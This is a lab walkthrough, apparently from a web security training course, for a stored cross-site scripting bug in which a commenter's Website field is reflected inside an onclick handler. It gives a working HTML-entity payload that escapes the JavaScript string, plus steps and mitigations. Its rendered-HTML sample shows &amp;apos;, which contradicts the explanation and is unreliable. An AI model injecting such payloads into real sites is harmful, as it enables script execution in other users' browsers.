

# Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
❓

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.
```

### **🧩 Challenge recap**

- The Website value is copied into two places in the author link:

```html
<a id="author"
   href="{WEBSITE}"
   onclick="var tracker={track(){}};tracker.track('{WEBSITE}');">
```

- The server:
  - **HTML-encodes** angle brackets (\<, >), double quotes (").
  - **Escapes** single quotes as \\' and backslashes as \\\\ *inside the JavaScript*.
- Goal: close the JavaScript string and run alert() when the author name is clicked.

---

### **🔑 Payload that beats the filter**

```javascript
https://test.com&apos;);alert();//             <-- Website field
```

**Why \&apos;?**

- A literal ' is turned into \\', which **stays escaped** and cannot break the string.
- \&apos; is **left untouched** by the filter (it’s not a single quote yet).
  
  When the browser later parses the HTML, \&apos; is decoded to a real ', and that **does** terminate the string.
  

---

### **🛠️ Step-by-step exploitation**



1. **Post a comment**
   
   *Name*, *Email* – anything you like
   

   
   *Website* – **https://test.com\&apos;);alert();//**
   

   
   *Comment* – anything
   
2. Intercept the request in **Burp** (optional, for visibility) and forward it.
3. Reload the page; Burp shows the rendered HTML:

```html
<a id="author"
   href="https://test.com&amp;apos;);alert();//"
   onclick="var tracker={track(){}};tracker.track('https://test.com&amp;apos;);alert();//');">
   test
</a>
```

1. The browser decodes \&apos; → ' *before* running the onclick code:

```javascript
tracker.track('https://test.com');alert();//');
```

1. The first ' ends the string, alert() executes, // comments out the rest.
2. **Click the author name** → alert(1) pops → lab solved ✅

---

### **🧠 Key takeaways**

| **Technique** | **Purpose** |
|---|---|
| **HTML entity (\&apos;)** | Delivers a single quote that slips past server-side escaping. |
| **)** | Closes the function call cleanly. |
| **;alert();//** | Executes code and comments out leftovers. |

---

### **🛡️ Mitigation pointers**

- Context-aware encoding before storage or output.
- Avoid inline event handlers; add listeners in external JS.
- Enforce a strict **Content-Security-Policy** (script-src 'self').
